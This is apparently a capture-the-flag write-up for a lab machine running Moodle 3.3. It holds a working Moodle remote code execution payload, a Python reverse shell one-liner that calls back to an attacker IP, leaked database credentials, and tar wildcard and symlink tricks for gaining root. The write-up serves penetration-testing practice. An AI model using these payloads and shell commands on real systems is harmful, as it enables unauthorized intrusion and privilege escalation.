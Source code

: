 # Teacher

10.10.10.153

# User

Began with standard enum. Nmap and gobuster. Only port open is a standard webpage

Webpage has a 'moodle' service active

Could be CRSF here:
http://10.10.10.153/moodle/error/ 

Anther box for possible SQL Injection: 
http://10.10.10.153/moodle/tag/search.php

Seem to be using moodle Version 3.3


Found a message encoded as a stupid image

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Need to try and brute force it. 

Code used:
```
brute.py
```

After a brute force the missing character is a "#"

```
Giovanni
Th4C00lTheacha#
```

To get a shell it looks like I need to get evil:
https://blog.ripstech.com/2018/moodle-remote-code-execution/

Payload:
```
/*{a*/`$_GET[0]`;//{x}}
```

Reverse shell
```
&0=(python -c 'import socket,subprocess,os;IP="10.10.14.55";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```

The automated process can be found in:
```
automated_shell.py
```

In the directory you land in you can find a ```config.php``` that contains db creds for a hosted database
```
root
Welkom1!
```

Naviagating to the mdl_user, gives us a md5 hash for the user

```
mysql -P 3306 -u root -pWelkom1! moodle
```

Credentials:
```
giovanni
expelled
```

This lets us elevate to user

# ROOT

On the machine there is a process running called /usr/bin/backup.sh running as root

```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R
```

Because of the wildcard on the tar command. We can give files in the directory names 
that act as params. However the use of "/*" in the code makes this attack non executable

e.g.
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=shell.sh"
```

By adding a root directory symlink in the work directory. 
The chmod 777 * -R command runs over the root directory and allows us to read it

